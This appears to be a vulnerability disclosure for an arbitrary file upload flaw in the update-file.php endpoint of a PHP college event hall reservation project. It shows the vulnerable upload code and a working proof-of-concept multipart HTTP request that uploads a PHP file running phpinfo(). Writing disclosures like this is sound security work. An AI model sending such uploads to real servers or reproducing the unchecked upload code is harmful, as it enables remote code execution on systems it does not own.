 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Arbitrary File Upload update-file.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /endpoint/update-file.php

## Code
```php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $fileID = $_POST["fileID"];
    $fileTitle = $_POST["fileTitle"];
    $fileUploader = isset($_POST["fileUploader"]) ? $_POST["fileUploader"] : "";

    $newFileName = null;

    if ($_FILES["file"]["name"]) {
        $uploadDirectory = "../file-uploads/";
        $newFileName = $_FILES["file"]["name"];
        $targetFilePath = $uploadDirectory . $newFileName;

        // Check if the file already exists
        if (file_exists($targetFilePath)) {
            echo "
            <script>
                alert('A file with the same name already exists. Please choose a different name for your file.');
                window.location.href = 'http://localhost/file-manager-app/index.php';
            </script>";
        } else {
            // Delete the old file, if it exists
            $sqlGetOldFileName = "SELECT file FROM tbl_file WHERE tbl_file_id = :fileID";
            $stmtGetOldFileName = $conn->prepare($sqlGetOldFileName);
            $stmtGetOldFileName->bindParam(':fileID', $fileID);
            $stmtGetOldFileName->execute();
            $oldFileName = $stmtGetOldFileName->fetchColumn();

            if ($oldFileName) {
                $oldFilePath = $uploadDirectory . $oldFileName;
                if (file_exists($oldFilePath)) {
                    unlink($oldFilePath);
                }
            }

            if (move_uploaded_file($_FILES["file"]["tmp_name"], $targetFilePath)) {
                // File uploaded successfully
            } else {
                echo "Error updating the file.";
                exit;
            }
        }
    }
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST //endpoint/update-file.php HTTP/1.1
Host: localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryF7Zu0E9rZB71ybiz
Content-Length: 519


------WebKitFormBoundaryF7Zu0E9rZB71ybiz
Content-Disposition: form-data; name="fileID"

11
------WebKitFormBoundaryF7Zu0E9rZB71ybiz
Content-Disposition: form-data; name="fileTitle"

NoChizPlz
------WebKitFormBoundaryF7Zu0E9rZB71ybiz
Content-Disposition: form-data; name="file"; filename="NoChizPlz.php"
Content-Type: application/php

<?php phpinfo()?>
------WebKitFormBoundaryF7Zu0E9rZB71ybiz
Content-Disposition: form-data; name="fileUploader"

NoChizPlz
------WebKitFormBoundaryF7Zu0E9rZB71ybiz--
```

## Screenshot
![img.png](Arbitrary%20File%20Upload%20-%20update-file%2Fimg.png)

